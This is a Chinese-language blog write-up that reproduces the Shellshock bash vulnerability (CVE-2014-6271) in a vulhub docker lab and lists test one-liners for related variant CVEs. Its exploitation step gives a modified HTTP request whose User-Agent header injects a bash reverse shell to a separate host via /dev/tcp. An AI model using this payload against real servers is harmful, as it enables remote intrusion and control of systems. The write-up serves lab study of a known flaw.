

# CVE-2014-6271 - 七先生 - 博客园

> 原文：[`www.cnblogs.com/Qixiansheng/p/15494429.html`](https://www.cnblogs.com/Qixiansheng/p/15494429.html)

# Linux Bash CVE-2014-6271 漏洞复现

## 0\. 环境搭建

0.  安装 docker：

    ```
    curl -s https://get.docker.com/ | sh 
    ```

1.  搭建 vulhub，使用 wget 下载 vulhub：

    ```
    wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip 
    ```

    解压：

    ```
    unzip vulhub-master.zip 
    ```

    进入漏洞环境：

    ```
    cd /tools/range/bash/shellblock 
    ```

    启动环境：

    ```
    docker-compose up -d 
    ```

## 1\. 漏洞原理

0.  以() {开头定义的环境变量在命令 ENV 中解析成函数后，Bash 执行并未退出，而是继续解析并执行 shell 命令。

1.  CGI 脚本会继承系统的环境变量。CGI 环境变量在 CGI 程序启动时初始化，在结束时销毁。当一个 CGI 脚本未被 HTTP 服务器调用时，它的环境变量几乎是系统环境变量的复制，当这个 CGI 脚本被 HTTP 服务器调用时，它的环境变量就会增加关于 HTTP 服务器，客户端，CGI 传输过程等条目。当 CGI 脚本接收到一次 HTTP 请求，它的环境变量就会新增一些条目，比如`User-agent`，`Connection`等信息

**漏洞影响范围**：bash 版本<=4.3

## 2\. 漏洞复现

0.  访问靶场地址，虚拟机 ip/victim.cgi，另外该目录下还存在一个 safe.cgi，为最新 bash 下生成的 cgi 脚本。

1.  访问，burp 抓包：

    

    2.  修改数据包，命令执行：

    ```
    GET /victim.cgi HTTP/1.1
    Host: 192.168.163.128:8080
    User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/192.168.1.1/1234 0>&1;
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    DNT: 1
    Sec-GPC: 1 
    ```

    3.  shell 反弹成功：

    

* * *

### 总结

​该漏洞利用条件较多，1\. bash 版本小于等于 4.3，2\. 攻击者可以控制环境变量，3\. 新的 bash 进程被打开触发漏洞并执行命令。简单点说，没有 cgi 脚本继承环境变量，就玩不了；有 cgi 脚本的，bash 版本过高也玩不了。不过由于利用较为简单，且影响范围比较大，建议多多尝试。

​另外就是该漏洞的提权问题，在网上找了几篇文章看了一下，感觉还是 msf 做漏洞利用，上传系统信息收集文件，然后提权这一套比较靠谱。

​还有几个编号是该漏洞的变种，大佬们绕补丁提的 CVE：CVE-2014-7169、CVE-2014-7186、CVE-2014-7187、CVE-2014-6278、CVE-2014-6277。

​ CVE-2014-7169

```
env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo 
```

​ CVE-2014-7186

```
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack" 
```

​ CVE-2014-7187

```
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno" 
```

​ CVE-2014-6278

```
shellshocker='() { echo You are vulnerable; }' bash -c shellshocker 
```

​ CVE-2014-6277

```
bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable 
```

文章参考：

[`www.secpulse.com/archives/917.html`](https://www.secpulse.com/archives/917.html)

[`www.cnblogs.com/Cl0ud/p/14248937.html`](https://www.cnblogs.com/Cl0ud/p/14248937.html)